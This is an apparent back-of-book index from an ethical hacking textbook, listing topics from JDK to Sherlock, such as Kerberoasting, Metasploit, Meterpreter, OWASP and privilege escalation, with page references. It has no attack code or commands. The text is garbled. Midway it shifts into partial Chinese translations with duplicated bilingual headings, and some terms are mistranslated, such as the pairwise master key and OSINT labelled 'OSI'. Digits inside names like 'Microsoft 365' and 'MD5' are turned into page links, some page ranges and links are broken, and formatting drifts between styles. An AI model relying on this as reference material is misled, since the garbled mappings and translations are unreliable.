- JDK (Java Development Kit), 242, 359
- job sites, 128–129
- John the Ripper, 296–298
- Joint Photographic Experts Group (JPEG) format, as a Presentation layer protocol, 21
- JRE (Java runtime engine), 242
- JSON (JavaScript Object Notation), 384, 596–597, 633
- JSP (Java Server Pages) process, 328
- Just Works, 496
- Kali Linux, 267, 282, 312, 459, 494
- Kaminsky, Dan, 3–4
- KDC (key distribution center), 300–301
- Kerberoasting, 300–304
- Kerberos, 300–304
- key distribution center (KDC), 300–301
- key reinstallation, 493–494
- Key Reinstallation Attack (KRACK), 484, 494
- Kibana, 86
- Kismet, 485
- KRACK (Key Reinstallation Attack), 484, 494
- Krebs, Brian, 528
- Krebs on Security, 528, 529
- Kubernetes, 593
- L2CAP (Logic Link Control and Adaptation Protocol), 499
- LAN (Local Area Network), 43
- LAND (local area network denial) attack, 531
- Lateral Movement stage, in MITRE ATT&CK framework, 9, 11, 74, 536–538
- Latin America and Caribbean Network Information Centre (LACNIC), 110
- layered systems, for applications, 635
- `LD_PRELOAD` variable, 329
- legacy attacks, 531
- lift‐and‐shift approach, 625
- Lightweight Extensible Authentication Protocol (LEAP), 481
- liking, in theory of influence, 437
- LinkedIn, 120–123
- Linux
    - about, 651
    - ARP cache duration on, 419
    - privilege escalation, 318–319
- Linux Unified Key Setup (LUKS), 575
- living off the land, 307–308
- Local Area Network (LAN), 43
- local area network denial (LAND) attack, 531
- Lockheed Martin Cyber Kill Chain, 72, 601–602
- log management system, 86
- log manipulation, 329
- logging, 91–93, 541
- Logic Link Control and Adaptation Protocol (L2CAP), 499
- low and slow, as an evasion technique, 220
- Low Orbit Ion Cannon (LOIC), 528
- LucidChart, 618
- Lucifer cipher, 555–556
- LUKS (Linux Unified Key Setup), 575
- worm, [342](#c08.xhtml#Page_342)–343
- Malware Behavior Catalog (MBC), [371](#c08.xhtml#Page_371)
- MAN (Metropolitan Area Network), [43](#c02.xhtml#Page_43)
- man traps, [444](#c10.xhtml#Page_444)–445
- management information bases (MIBs), [258](#c06.xhtml#Page_258)
- Mandiant, [370](#c08.xhtml#Page_370)–371
- man‑in‑the‑middle attack, [63](#c03.xhtml#Page_63), [420](#c09.xhtml#Page_420)
- manufacturing execution systems (MES), [654](#c15.xhtml#Page_654)
- manufacturing operational technology (MOM) systems, [654](#c15.xhtml#Page_654)
- Martian packets, [538](#c12.xhtml#Page_538)
- Massachusetts Institute of Technology (MIT), [114](#c04.xhtml#Page_114), [300](#c07.xhtml#Page_300)
- `masscan`, [184](#c05.xhtml#Page_184)–185
- MAUs (multistation access units), [26](#c02.xhtml#Page_26)
- maximum transmission unit (MTU), [395](#c09.xhtml#Page_395)
- Maze, [346](#c08.xhtml#Page_346)
- MBC (Malware Behavior Catalog), [371](#c08.xhtml#Page_371)
- MD5 (Message Digest [5](#c01.xhtml#Page_5)), [298](#c07.xhtml#Page_298), [356](#c08.xhtml#Page_356)–358, [569](#c13.xhtml#Page_569)–570
- `mdk3/4` tool, [494](#c11.xhtml#Page_494)–495
- media access control (MAC) address
    - about, [427](#c09.xhtml#Page_427), [490](#c11.xhtml#Page_490), [647](#c15.xhtml#Page_647)
    - format of, [30](#c02.xhtml#Page_30)
- MegaPing
    - ping sweeps using, [165](#c05.xhtml#Page_165)–166
    - for port scanning, [185](#c05.xhtml#Page_185)–186
- MES (manufacturing execution systems), [654](#c15.xhtml#Page_654)
- mesh network, [27](#c02.xhtml#Page_27)–28
- message authentication code (MAC), [479](#c11.xhtml#Page_479), [569](#c13.xhtml#Page_569)
- Message Digest [5](#c01.xhtml#Page_5) (MD5), [298](#c07.xhtml#Page_298), [356](#c08.xhtml#Page_356)–358, [569](#c13.xhtml#Page_569)–570
- message integrity check (MIC), [479](#c11.xhtml#Page_479)
- Message Queuing Telemetry Transport (MQTT), [52](#c02.xhtml#Page_52)
- Metasploit
    - about, [250](#c06.xhtml#Page_250)–254
    - creating malware using, [375](#c08.xhtml#Page_375)–381
    - finding vulnerabilities with, [209](#c05.xhtml#Page_209)–210
    - modules, [286](#c07.xhtml#Page_286)–289
    - for port scanning, [188](#c05.xhtml#Page_188)–190
    - `sunrpc` scanner, [238](#c06.xhtml#Page_238)–239
- Meterpreter
    - about, [292](#c07.xhtml#Page_292)–295, [324](#c07.xhtml#Page_324)–325
    - clearing Event Viewer in, [329](#c07.xhtml#Page_329)
- methods, [626](#c15.xhtml#Page_626)
- Metropolitan Area Network (MAN), [43](#c02.xhtml#Page_43)
- Metsvc, [324](#c07.xhtml#Page_324)
- MFA (multifactor authentication), [603](#c14.xhtml#Page_603), [645](#c15.xhtml#Page_645)
- `mfsconsole`, Firefox Exploit Module in, [305](#c07.xhtml#Page_305)–306
- MIBs (management information bases), [258](#c06.xhtml#Page_258)
- MIC (message integrity check), [479](#c11.xhtml#Page_479)
- Microsoft
    - about, [50](#c02.xhtml#Page_50), [104](#c04.xhtml#Page_104)–105
    - Internet Information Services (IIS), [513](#c12.xhtml#Page_513), [589](#c14.xhtml#Page_589)
    - SQL Server, [595](#c14.xhtml#Page_595)–596
- Microsoft [365](#c08.xhtml#Page_365) (M365), [626](#c15.xhtml#Page_626)
- Microsoft Azure, [617](#c15.xhtml#Page_617), [626](#c15.xhtml#Page_626), [639](#c15.xhtml#Page_639)
- Microsoft Hyper‑V server, [631](#c15.xhtml#Page_631)
- Microsoft Office [365](#c08.xhtml#Page_365) (O365), [626](#c15.xhtml#Page_626)
- Microsoft OneDrive, [619](#c15.xhtml#Page_619)
- Microsoft Teams, [501](#c11.xhtml#Page_501)
- Microsoft's Surface, [483](#c11.xhtml#Page_483)
- Mimikatz, [537](#c12.xhtml#Page_537)
- `mimikatz` module, [293](#c07.xhtml#Page_293)
- misconfigurations, as a weakness of web applications, [642](#c15.xhtml#Page_642)–643
- MIT (Massachusetts Institute of Technology), [114](#c04.xhtml#Page_114), [300](#c07.xhtml#Page_300)
- mitigation, of risk, [69](#c03.xhtml#Page_69)
- Mitnick, Ryan, [8](#c01.xhtml#Page_8)
- MITRE, [163](#c05.xhtml#Page_163)
- MITRE ATT&CK framework
    - about, [10](#c01.xhtml#Page_10)–11, [72](#c03.xhtml#Page_72), [232](#c06.xhtml#Page_232)
    - malware analysis and, [371](#c08.xhtml#Page_371)
    - stages of, [73](#c03.xhtml#Page_73)–75
    - website, [75](#c03.xhtml#Page_75)
- mobile devices
    - about, [499](#c11.xhtml#Page_499)–500
    - attacks on, [500](#c11.xhtml#Page_500)–504
- models
    - for communication, [19](#c02.xhtml#Page_19)–24
    - defined, [18](#c02.xhtml#Page_18)
    - security, [584](#c14.xhtml#Page_584)–587
- model‑view‑controller (MVC) design, [588](#c14.xhtml#Page_588)–589
- `mod_security`, [525](#c12.xhtml#Page_525)
- modules (Metasploit), [286](#c07.xhtml#Page_286)–289
- MOM (manufacturing operational technology) systems, [654](#c15.xhtml#Page_654)
- MongoDB, [597](#c14.xhtml#Page_597)
- Morris, Robert T., [342](#c08.xhtml#Page_342)
- Move Laterally stage, in life cycle, [536](#c12.xhtml#Page_536)
- MPLS (Multiprotocol Label Switching), [45](#c02.xhtml#Page_45)
- MQTT (Message Queuing Telemetry Transport), [52](#c02.xhtml#Page_52)
- MS16‑032 vulnerability, [317](#c07.xhtml#Page_317)


- `msfconsole` program, [190](#c05.xhtml#Page_190), [286](#c07.xhtml#Page_286)–289, [291](#c07.xhtml#Page_291), [375](#c08.xhtml#Page_375)
- `msfvenom` program, [323](#c07.xhtml#Page_323)–324, [381](#c08.xhtml#Page_381)
- MTU (maximum transmission unit), [395](#c09.xhtml#Page_395)
- multifactor authentication (MFA), [603](#c14.xhtml#Page_603), [645](#c15.xhtml#Page_645)
- Multiprotocol Label Switching (MPLS), [45](#c02.xhtml#Page_45)
- multistation access units (MAUs), [26](#c02.xhtml#Page_26)
- multitenancy, [615](#c15.xhtml#Page_615)
- MVC (model‑view‑controller) design, [588](#c14.xhtml#Page_588)–589
- MX (mail exchange) records, [132](#c04.xhtml#Page_132), [136](#c04.xhtml#Page_136)
- MySQL, [520](#c12.xhtml#Page_520), [595](#c14.xhtml#Page_595)
- NAC (network access control), [483](#c11.xhtml#Page_483)
- name server (NS) records, [132](#c04.xhtml#Page_132), [135](#c04.xhtml#Page_135)
- NASL (Network Attack Scripting Language) scripts, [209](#c05.xhtml#Page_209)
- NAT (network address translation), [51](#c02.xhtml#Page_51)
- National Institute of Standards and Technology (NIST)
    - about, [70](#c03.xhtml#Page_70)–71, [556](#c13.xhtml#Page_556)
    - Cybersecurity Framework, [599](#c14.xhtml#Page_599)
    - 800‑207, [602](#c14.xhtml#Page_602)–603
    - Special Publication 800‑53, [600](#c14.xhtml#Page_600)
- National Security Agency (NSA), [209](#c05.xhtml#Page_209), [346](#c08.xhtml#Page_346), [358](#c08.xhtml#Page_358)
- nation‑state actors, [8](#c01.xhtml#Page_8)
- `nbstat`, [244](#c06.xhtml#Page_244), [245](#c06.xhtml#Page_245)–246
- near‑field communication (NFC), [496](#c11.xhtml#Page_496)
- Nessus, [203](#c05.xhtml#Page_203)–209, [286](#c07.xhtml#Page_286), [650](#c15.xhtml#Page_650)–651
- `net` utility, [246](#c06.xhtml#Page_246)–247
- NetBIOS Enumerator, [244](#c06.xhtml#Page_244), [249](#c06.xhtml#Page_249)–250
- `netcat`, [319](#c07.xhtml#Page_319), [378](#c08.xhtml#Page_378), [648](#c15.xhtml#Page_648)
- NetFlow, [541](#c12.xhtml#Page_541)
- NetSpot, [485](#c11.xhtml#Page_485)
- network access control (NAC), [483](#c11.xhtml#Page_483)
- network address translation (NAT), [51](#c02.xhtml#Page_51)
- Network Attack Scripting Language (NASL) scripts, [209](#c05.xhtml#Page_209)
- network blocks, [645](#c15.xhtml#Page_645)
- Network File Server (NFS), [237](#c06.xhtml#Page_237)
- network IDS, [80](#c03.xhtml#Page_80)–83
- network interface cards (NICs), [395](#c09.xhtml#Page_395)
- Network layer (OSI model), [22](#c02.xhtml#Page_22)
- network stacks. *See* [stacks](#b02.xhtml#ind1603)

## 网络漏洞测试 (NVTs)

NVTs, 195–198

## 网络

See also 扫描, 网络

- 关于, 18, 54–55
- 回答复习问题的答案, 662–663
- 架构, 42–46
- 云计算, 46–53
- 通信模型, 19–24
- 因特网控制消息协议 (ICMP), 41–42
- 因特网协议 (IP), 31–37
- 网络隔离, 44–45
- 物理网络, 29–31
- 复查问题, 56–58
- 测试网络, 484
- 拓扑结构, 24–29
- 传输控制协议 (TCP), 37–40
- 用户数据报协议 (UDP), 40–41
- Wi‑Fi, 473–476

## 新技术文件系统 (NTFS)

NTFS, 330–331

## Nexpose

Nexpose, 286

## NFC (近场通信)

NFC (near‑field communication), 496

## NFS (网络文件服务器)

NFS (Network File Server), 237

## NICs (网络接口卡)

NICs (network interface cards), 395

## 尼日利亚王子诈骗

Nigerian Prince scam, 440

## Nimda

Nimda, 343

## NIST (国家标准技术局)

- 关于, 70–71, 556
- 网络安全框架, 599
- 800‑207, 602–603
- 特别出版 800‑53, 600

## `nmap`

- 关于, 647, 650–651
- 规避, 221–223
- 用于端口扫描, 168
- 脚本, 247–249
- 版本扫描, 233–234

## `nmblookup`

`nmblookup`, 245–246

## `Node.js` 程序

`Node.js` program, 383

## 不可否认性

nonrepudiation, 559–560

## NoSQL 数据库

NoSQL databases, 596, 597, 598

## NS (名称服务器) 记录

NS (name server) records, 132, 135

## NSA (国家安全局)

NSA (National Security Agency), 209, 346, 358

## `nslookup`

`nslookup`, 用于名称查找, 134–135

## NTFS (新技术文件系统)

NTFS (New Technology Filesystem), 330–331

## n‑tier 应用程序设计

n‑tier application design, 588–591

## NVTs (网络漏洞测试)

NVTs (network vulnerability tests), 195–198

## O

- 使混淆, 381
- 对象交换 (OBEX) 协议, 498
- 隐藏数据, 作为规避技术, 219
- 八位组 (octets), 34
- 外国访问控制办公室 (OFAC), 346
- 正式分类, 583
- OllyDbg, 366, 367–368
- OmniGraffle, 618
- 100BaseTX, 作为物理层协议, 22
- 1000BaseT, 作为物理层协议, 22
- 1822 协议, 23

## 开源情报 (OSI)

- 关于, 103
- 公司, 103–104
- 域名注册机构, 105–109
- EDGAR, 104–105
- 人员, 112–115
- 区域性 Internet 注册机构, 109–112
- 社交网络, 115–129

## 开源安全测试方法手册 (OSSTMM)

OSSTMM, 6

## 开放系统互连 (OSI) 模型

- 关于, 20–22, 210–211
- 协议数据单元 (PDU), 395

## 开放式应用程序安全项目 (OWASP) 前十大漏洞

OWASP top ten vulnerabilities, 514–515, 642

## OpenBSD 系统

OpenBSD system, 146

## OpenSSH 漏洞

OpenSSH exploits, 282

## `openssl` 命令

`openssl` command, 567–568

## OpenSSL 库

OpenSSL library, 562, 567

## OpenStack

OpenStack, 623

## OpenVAS

- 关于, 192–193
- 扫描配置, 195–198
- 扫描结果, 200–203
- 扫描任务, 198–200
- 在目标中设置, 193–194
- 漏洞扫描, 286

## 操作数

operand, 355

## 操作技术 (OT)

- 关于, 652–653
- Purdue 模型, 654–655

## 选项字段

Options field, 39

## Oracle

Oracle, 595

## 组织唯一标识 (OUI)

OUI (organizationally unique identifier), 30, 427, 647

## OSI (开源情报)

- 关于, 103
- 公司, 103–104
- 域名注册机构, 105–109
- EDGAR, 104–105
- 人员, 112–115
- 区域性 Internet 注册机构, 109–112
- 社交网络, 115–129

## OSI (Open Systems Interconnection) 模型

- 关于, 20–22, 210–211
- 协议数据单元 (PDU), 395

## OSSTMM (开源安全测试方法手册)

OSSTMM, 6

## OT (操作技术)

- 关于, 652–653
- Purdue 模型, 654–655

## OUI (组织唯一标识)

OUI (organizationally unique identifier), 30, 427, 647

## 过时组件, 作为 OWASP 前十大漏洞之一

outdated components, as one of OWASP top ten vulnerabilities, 514

## 重叠, 作为规避技术

overlaps, as an evasion technique, 219

## OWASP (开放式应用程序安全项目) 前十大漏洞

OWASP top ten vulnerabilities, 514–515, 642

## P

- PaaS (平台即服务), 49–51, 617, 621
- 打包程序, 在静态分析中, 351–353
- 包分析, 412–417
- 包捕获
    - 关于, 394–395
    - Berkeley 包装器 (BPF), 408–410
    - 定义, 395
    - 端口镜像/跨越, 410
    - `tcpdump`, 395–401
    - `tshark`, 401–403
    - Wireshark, 403–408
- 包捕获 (PCAP) 文件, 401
- 包构建和操作
    - 关于, 210–211
    - `fragroute`, 217–218
    - `hping`, 211–214
    - packETH, 214–217
- 包过滤器, 76–77
- packETH 工具, 211, 214–217
- 包, 31, 395
- 双主密钥 (PMK), 480
- 脉搏静脉扫描, 446
- Parker, Donn, 65
- Parkerian hexad, 65
- Parrot OS, 494
- 被动 DNS 侦察, 138–142
- 被动侦察–144
- 密码破解
    - 关于，295–296
    - John the Ripper，296–298
    - Kerberoasting，300–304
    - Rainbow Tables，298–300
- 密码，收集，292–295
- 载荷
    - 定义，395
    - 编码，380
- 支付卡行业 (PCI)，45
- PCAP (数据包捕获) 文件，401
- PCI (支付卡行业)，45
- PCRE (Perl 兼容正则表达式)，524
- PDF (Portable Document Format)，网络钓鱼及，451
- PDUs (协议数据单元)，29，395
- PE Detective，352–353
- Peach，308–313
- PEAP (Protocol Extensible Authentication Protocol)，481
- PeekYou，115
- 渗透测试。*See* 伦理黑客
- Penetration Testing Execution Standard (PTES)，6
- 人员，开源情报 (OSI) 及，112–115
- 句号 (.)，34
- Perl 兼容正则表达式 (PCRE)，524
- 持久性，322–326，385–386。*See also* 访问，在伦理黑客中维护
- 持久性阶段，在 MITRE ATT&CK 框架中，10，73
- 持久型跨站脚本，517
- 个人健康信息 (PHI)，45，394–395
- PGP (Pretty Good Privacy)，571–572
- PHI (个人健康信息)，45，394–395
- 网络钓鱼
    - 关于，440，448–452
    - 联系垃圾邮件，452
    - 移动设备上，501
    - 交换条件，452
- 电话通话，作为物理社会工程，445–446
- phreak，440
- 物理控制，68
- 物理层 (OSI 模型)，22
- 物理网络
    - 关于，29
    - 地址，29–30
    - 交换，30–31
- 物理社会工程
    - 关于，442
    - 徽章访问，442–444
    - 饵诱，447–448
    - 生物特征，445–446
    - 人阱，444–445
    - 电话通话，446–447
    - 尾随，448
- Pikker，Hieki，362
- ping 扫描
    - 关于，163
    - 使用 `fping`，163–165
    - 使用 MegaPing，165–166
- 跳转，319–322
- PKI (公钥基础设施)，562
- 平台即服务 (PaaS)，49–51，617，621
- PLCs (可编程逻辑控制器)，652–653，654
- Nessus 插件标签，205
- PMK (pairwise master key)，480
- 指针 (PTR) 记录，132，396
- 政策，安全，69–70
- 多态恶意软件，348
- 多态性，219
- POODLE 攻击，146
- `popen()`，374
- 端口镜像/跨越，410
- 端口扫描
    - 关于，162–163，167–168
    - 详细信息，173–176


- `masscan`，184–185

- MegaPing，185–186

- Metasploit，188–190

- `nmap`，168

- 脚本，176–181

- TCP 扫描，168–171

- UDP 扫描，171–173

- Zenmap，181–184

- Portable Document Format (PDF)，网络钓鱼及，451

- `portmap` 服务，237

- 所有权 (控制)，在 Parkerian hexad 中，65

- post exploitation

    - 关于，313

    - 隐藏痕迹，326

    - 规避，313–314

    - 隐藏数据，330–332

    - 日志操作，329

    - 持久性，322–326

    - 跳转，319–322

    - 特权提升，314–319

    - 进程注入，327–329

    - rootkits，326–327

    - 时间管理，332

- POST 方法，384，631，635

- Postel，Jon，106

- Postman，649

- 可能不受欢迎的应用程序 (PUAs)，341

- 可能不受欢迎的程序 (PUPs)，341

- PowerShell，307，314，537–538，632–633

- PowerSploit，307–308

- 表示层

    - n‑tier 应用程序设计，589

    - OSI 模型，21

- pre‑shared key (PSK)，459，478，480，553–554

- pretexting，438–440

- Pretty Good Privacy (PGP)，571–572

- 私有分类，583

- 私有云，623

- 特权提升

    - 规避和，314–319

    - Linux，318–319

- Privilege Escalation 阶段，在 MITRE ATT&CK 框架中，11，73–74

- 概率。*See* 风险

- 程序，71–72，626

- process injection，327–329

- 可编程逻辑控制器 (PLCs)，652–653，654

- 程序，626

- Project Athena，300

- properties，在静态分析中，356

- Protect function，在 NIST 网络安全框架中，600

- protections

    - 应用程序，535–536

    - 检测和，223–224

    - Web 应用，524–526

- protocol data units (PDUs)，29，395

- Protocol Extensible Authentication Protocol (PEAP)，481

- Protocol 字段，33

- protocol stacks。*See* stacks

- protocols，19–20

- PSK (pre‑shared key)，459，478，480，553–554

- PTES (Penetration Testing Execution Standard)，6

- PTR (pointer) 记录，`132`，`396`

- PUAs (potentially unwanted applications)，`341`

- Public classification，`583`

- public cloud，`623`

- public key cryptography. *See* `asymmetric key cryptography`，`[#b02.xhtml#ind113]`

- public key infrastructure (PKI)，`562`

- PUPs (potentially unwanted programs)，`341`

- Purdue model，`654`–655

- PUT method，`631`，`635`

- Python，`372`–374，`638`

- QoD，`202`

- quid pro quo，`452`

- race condition，`67`

- radio frequency identification (RFID)，`442`–443

- Rain Forest Puppy Policy (RFP/RFPolicy)，`3`

- Rainbow Crack project，`297`

- Rainbow Tables，`298`–300

- ransomware，`345`–347

- Rapid7，`381`

- `rcrack` program，`298`–299

- RDP (Remote Desktop Protocol)，`51`

- Real‑time Transport Protocol (RTP)，`79`

- reciprocity，in theory of influence，`437`

- Recon plugin，`144`

- reconnaissance and footprinting

    - about，`102`–103，`154`–156

    - answers to review questions，`666`–669

    - Domain Name System (DNS)，`129`–142

    - in ethical hacking，`12`

    - open source intelligence (OSI)，`103`–129

    - passive reconnaissance，`142`–144

    - review questions，`157`–160

    - technology intelligence，`150`–154

    - website intelligence，`145`–149

    - wireless，`484`–485

- Reconnaissance stage

    - in Lockheed Martin Cyber Kill Chain，`601`

    - in MITRE ATT&CK framework，`10`，`73`

- Recover function，in NIST Cybersecurity Framework，`600`

- recursive name query/resolution，`132`

- red teaming. *See* `ethical hacking`，`[#b02.xhtml#ind494]`

- reduction function，`298`

- reflected cross‑site scripting，`517`

- regex denial of service (ReDoS)，`525`

- regional Internet registry (RIR)，`106`，`109`–112

- related‑key attack，`558`

- remote access，`45`–46

- Remote Desktop Protocol (RDP)，`51`

- Remote Method Invocation (RMI)，`237`，`239`–242，`591`

- Remote Procedure Calls (RPCs)

    - about，`236`–237，`591`

    - remote method invocation (RMI)，`239`–242

    - as a Session layer protocol，`22`

    - SunRPC，`237`–239

- remote terminal units (RTUs)，`654`

- Report tab (Nessus)，`205`–206

- Representational State Transfer (REST)，`383`，`591`，`633`–638

- request for comments (RFC)，`32`

- Réseaux IP Européens Network Coordination Centre (RIPE NCC)，`110`

- Reserved field，`38`

- resource consumption，as an evasion technique，`220`

- Resource Development stage，in MITRE ATT&CK framework，`10`，`73`

- Respond function，in NIST Cybersecurity Framework，`600`

- responsive design，`629`

- REST (Representational State Transfer)，`383`，`591`，`633`–638

- Restricted classification，`583`

- retinal scanning，`446`

- reverse connection，listening for with `netcat`，`319`

- reverse lookup，`134`，`396`

- review questions

    - attack and defense，`543`–548

    - cloud computing，`657`–661

    - cryptography，`578`–580

    - enumeration，`274`–277

    - Internet of Things (IoT)，`657`–661

    - malware，`388`–391

    - networking，`56`–58

    - scanning networks，`226`–229

    - security，`96`–99

    - security architecture and design，`606`–609

    - sniffing，`430`–434

    - social engineering，`466`–470

    - system hacking，`334`–337

    - wireless security，`506`–509

- REvil，`347`

- revoked certificates，`565`

- RFC (request for comments)，`32`

- RFC 768，`41`

- RFC 792，`42`

- RFC 1918，`34`，`538`

- RFC 3164，`91`

- RFC 4861，`418`

- RFC 5424，`91`

- RFID (radio frequency identification)，`442`–443

- RFP/RFPolicy (Rain Forest Puppy Policy)，`3`

- Rijndael cipher，`556`

- ring network，`26`

- RIPE NCC (Réseaux IP Européens Network Coordination Centre)，`110`

- RIR (regional Internet registry)，`106`，`109`–112

- risk

    - information assurance and，`66`–69

    - risk acceptance，`68`

    - risk avoidance，`69`

    - risk mitigation，`69`

    - risk transference，`68`–69

    - security architecture and，`599`

- Rivest‑Shamir‑Adleman (RSA) algorithm，`559`

- RMI (Remote Method Invocation)，`237`，`239`–242，`591`

- `rmiregistry` program，`239`–242

- rogue attacks，`457`–458

- rootkits，`326`–327

- rot13，`551`

- `rpcbind` service，`237`

- `rpcinfo`，`237`–238

- RPCs (Remote Procedure Calls)

    - about，`236`–237，`591`

    - remote method invocation (RMI)，`239`–242

    - as a Session layer protocol，`22`

    - SunRPC，`237`–239

- RSA (Rivest‑Shamir‑Adleman) algorithm，`559`

- RSA keys，`406`

- RSA Lab，`624`

- RST flag，`167`，`212`

- `rtgen` program，using for Rainbow Tables，`297`–298

- RTP (Real‑time Transport Protocol)，`79`

- RTUs (remote terminal units)，`654`

- Ruby，`378`

- running

    - scans，`198`

    - `sslstrip` in Ettercap，`426`

    - `tcpdump` without filters，`409`

- Ryuk，[`#c08.xhtml#Page_347`]

## S

- S3 buckets，[`#c15.xhtml#Page_620`，`#c15.xhtml#Page_641`]–642

- SAE (Simultaneous Authentication of Equals)，[`#c11.xhtml#Page_482`]

- SAINT (Security Administrator's Integrated Network Tool)，[`#c05.xhtml#Page_191`]–192

- Samba，[`#c06.xhtml#Page_243`，`#c06.xhtml#Page_255`]

- sandboxing，[`#c08.xhtml#Page_361`，`#c11.xhtml#Page_501`]

- SARA (Security Auditors Research Assistant)，[`#c05.xhtml#Page_191`]–192

- SATAN (Security Analysis Tool for Auditing Networks)，[`#c05.xhtml#Page_191`]–192

- Satori，[`#c04.xhtml#Page_152`]

- SBC (session border controller)，[`#c03.xhtml#Page_79`]

- SCADA (supervisory control and data acquisition)，[`#c15.xhtml#Page_652`]–653，[`#c15.xhtml#Page_654`]

- scan configs，in OpenVAS，[`#c05.xhtml#Page_195`]–198

- scanning

    - Bluetooth，[`#c11.xhtml#Page_496`]–498

    - in ethical hacking，[`#c01.xhtml#Page_12`]–13

    - networks

        - about，[`#c05.xhtml#Page_162`]–163，[`#c05.xhtml#Page_224`]–225

        - answers to review questions，[`#b01.xhtml#Page_669`]–672

        - evasion techniques，[`#c05.xhtml#Page_218`]–223

        - packet crafting and manipulation，[`#c05.xhtml#Page_210`]–218

        - ping sweeps，[`#c05.xhtml#Page_163`]–166

        - port scanning，[`#c05.xhtml#Page_167`]–190

        - protecting and detecting，[`#c05.xhtml#Page_223`]–224

        - review questions，[`#c05.xhtml#Page_226`]–229

        - vulnerability scanning，[`#c05.xhtml#Page_190`]–210


- scarcity, in theory of influence, [`#c10.xhtml#Page_437`]
- screen blindness, as an evasion technique, [`#c05.xhtml#Page_220`]
- scripting, [`#c05.xhtml#Page_176`]–181
- searching, for exploits, [`#c07.xhtml#Page_281`]–285
- `searchsploit` tool, [`#c07.xhtml#Page_283`, `#c07.xhtml#Page_292`]
- SEC (Securities and Exchange Commission), [`#c04.xhtml#Page_104`]
- Secret classification, [`#c14.xhtml#Page_583`]
- secure hash algorithm, [`#c07.xhtml#Page_297`]
- Secure Hash Algorithm 1 (SHA‑1), [`#c13.xhtml#Page_570`]
- Secure Hash Algorithm 2 (SHA‑2), [`#c13.xhtml#Page_570`]
- Secure Sockets Layer (SSL)
  - about, [`#c02.xhtml#Page_46`]
  - for encryption, [`#c09.xhtml#Page_406`]
  - for encryption for web‑based communication, [`#c03.xhtml#Page_62`]
- secure state, [`#c14.xhtml#Page_586`]
- Secure/Multipurpose Internet Mail Extensions (S/MIME), [`#c13.xhtml#Page_571`]–572
- Securities and Exchange Commission (SEC), [`#c04.xhtml#Page_104`]
- security
  - about, [`#c03.xhtml#Page_60`, `#c03.xhtml#Page_95`]
  - answers to review questions, [`#b01.xhtml#Page_663`]–666
  - architecture and design
    - about, [`#c14.xhtml#Page_582`, `#c14.xhtml#Page_598`]–602, [`#c14.xhtml#Page_604`]–605
    - answers to review questions, [`#b01.xhtml#Page_693`]–695
    - application architecture, [`#c14.xhtml#Page_587`]–598
    - data classification, [`#c14.xhtml#Page_582`]–584
    - review questions, [`#c14.xhtml#Page_606`]–609
    - security architecture, [`#c14.xhtml#Page_588`]–604
    - security models, [`#c14.xhtml#Page_584`]–587
    - zero‑trust model, [`#c14.xhtml#Page_602`]–604
  - auditing, [`#c03.xhtml#Page_93`]–95
  - CIA triad, [`#c03.xhtml#Page_61`]–65
  - defense‑in‑breadth approach, [`#c03.xhtml#Page_89`]–90
  - defense‑in‑depth approach, [`#c03.xhtml#Page_87`]–89
  - defensible network architecture, [`#c03.xhtml#Page_90`]–91
  - guidelines, [`#c03.xhtml#Page_72`]
  - information assurance and risk, [`#c03.xhtml#Page_66`]–69
  - logging, [`#c03.xhtml#Page_91`]–93
  - logging and monitoring failures, as one of OWASP top ten vulnerabilities, [`#c12.xhtml#Page_515`]
  - misconfiguration, as one of OWASP top ten vulnerabilities, [`#c12.xhtml#Page_514`]
  - models for, [`#c14.xhtml#Page_584`]–587
  - organizing protections, [`#c03.xhtml#Page_72`]–75
  - policies, [`#c03.xhtml#Page_69`]–70
  - procedures, [`#c03.xhtml#Page_71`]–72
  - review questions, [`#c03.xhtml#Page_96`]–99
  - standards, [`#c03.xhtml#Page_70`]–71
  - technology for, [`#c03.xhtml#Page_75`]–87
  - wireless (*See* `wireless security`)
- Security Administrator's Integrated Network Tool (SAINT), [`#c05.xhtml#Page_191`]–192
- Security Analysis Tool for Auditing Networks (SATAN), [`#c05.xhtml#Page_191`]–192
- Security Auditors Research Assistant (SARA), [`#c05.xhtml#Page_191`]–192
- security control, [`#c14.xhtml#Page_599`]
- security information and event management (SIEM), [`#c03.xhtml#Page_86`]–87, [`#c12.xhtml#Page_541`]
- security operations center (SOC), [`#c03.xhtml#Page_86`]–87
- segment, [`#c02.xhtml#Page_37`]
- `SELECT` query, [`#c14.xhtml#Page_598`]
- self‑propagation, [`#c08.xhtml#Page_342`]
- self‑signed certificates, [`#c13.xhtml#Page_566`]–568
- semi‑authorized entities, [`#c01.xhtml#Page_4`]
- Sequence Number field, [`#c02.xhtml#Page_38`]
- Server Message Block (SMB)
  - about, [`#c01.xhtml#Page_13`, `#c05.xhtml#Page_180`, `#c05.xhtml#Page_209`, `#c06.xhtml#Page_232`, `#c06.xhtml#Page_242`]–243
  - built‑in utilities, [`#c06.xhtml#Page_243`]–247
  - countermeasures, [`#c06.xhtml#Page_257`]
  - Metasploit, [`#c06.xhtml#Page_250`]–254
  - NetBIOS Enumerator, [`#c06.xhtml#Page_249`]–250
  - `nmap` scripts, [`#c06.xhtml#Page_247`]–249
  - other utilities, [`#c06.xhtml#Page_254`]–257
- server‑side request forgery, as one of OWASP top ten vulnerabilities, [`#c12.xhtml#Page_515`]
- service enumeration
  - about, [`#c06.xhtml#Page_233`]
  - countermeasures, [`#c06.xhtml#Page_236`]
  - `nmap` version scan, [`#c06.xhtml#Page_233`]–234
  - SSH2 algorithm enumeration, [`#c06.xhtml#Page_234`]–236
- service level agreement (SLA), [`#c03.xhtml#Page_71`]
- service set identifier (SSID), [`#c11.xhtml#Page_477`]
- service‑oriented architecture, [`#c14.xhtml#Page_591`]–593
- services, cloud, [`#c15.xhtml#Page_616`]–621
- session border controller (SBC), [`#c03.xhtml#Page_79`]
- Session Initiation Protocol (SIP), [`#c03.xhtml#Page_79`]
- session key, [`#c11.xhtml#Page_494`]
- Session layer (OSI model), [`#c02.xhtml#Page_22`]
- `sessions` command, [`#c07.xhtml#Page_317`]–318
- SET (Social‑Engineer Toolkit), [`#c10.xhtml#Page_461`]–464
- SETI@Home, [`#c15.xhtml#Page_624`]
- SHA‑1 (Secure Hash Algorithm [`#c01.xhtml#Page_1`]), [`#c13.xhtml#Page_570`]
- SHA‑2 (Secure Hash Algorithm [`#c01.xhtml#Page_2`]), [`#c13.xhtml#Page_570`]
- SHA‑256, [`#c08.xhtml#Page_357`]
- shared responsibility model, [`#c15.xhtml#Page_621`]–623
- shell, [`#c07.xhtml#Page_307`]
- shellcode, [`#c12.xhtml#Page_533`, `#c12.xhtml#Page_535`]
- `Sherlock` tool, [`#c04.xhtml#Page_120`]
